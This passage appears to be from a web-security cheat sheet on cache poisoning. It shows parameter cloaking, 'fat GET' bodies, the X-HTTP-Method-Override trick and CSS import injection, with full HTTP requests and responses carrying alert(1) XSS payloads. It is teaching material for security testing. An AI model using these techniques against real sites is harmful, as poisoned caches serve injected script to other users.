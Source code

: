    ```
This allows for cache poisoning or XSS by taking advantage of parsing inconsistencies.

Poc: [Parameter cloaking](https://www.youtube.com/watch?v=vdb_9HACpkM)

### Exploiting fat GET support

In some cases, the HTTP method may not be keyed. This might allow you to poison the cache with a POST request containing a malicious payload in the body. Your payload would then even be served in response to users' GET requests.
<br>
<br>
**Request:**
```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0

callback=alert(1)
```
**Response:**
```
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
Cache-Control: max-age=35
Age: 2
X-Cache: hit

alert(1)({"country":"United Kingdom"});
```
In this case, the cache key would be based on the request line, but the server-side value of the parameter would be taken from the body.
<br>
<br>
Sometimes we can encourage "fat GET" handling by overriding the HTTP method via ```X-HTTP-Method-Override: POST``` header, for example:
```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: test.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
X-HTTP-Method-Override: POST

callback=alert(1)
```
As long as the ```X-HTTP-Method-Override``` header is unkeyed, you could submit a pseudo-POST request while preserving a GET cache key derived from the request line.

### Exploiting Dynamic Content in Resource Imports
 
Some CSS files reflect user input (query parameters) into their content dynamically. If improperly handled, this can allow attackers to inject malicious content into these CSS files. By combining this with **web cache poisoning**, the attacker can make others load and execute the malicious content.
<br>
<br>
A CSS file dynamically includes user-provided data in its content, for example:  
```
GET /style.css?excluded_param=123);@import…
```
The server responds with a CSS file that includes the query parameter:  
```css
@import url(/site/home/index.part1.css?excluded_param=123);@import…
```
An attacker injects malicious content into the query parameter to alter the CSS:  
```
GET /style.css?excluded_param=alert(1)%0A{}*{color:red;} HTTP/1.1
```
The server processes this input and reflects it into the CSS:  
```css
```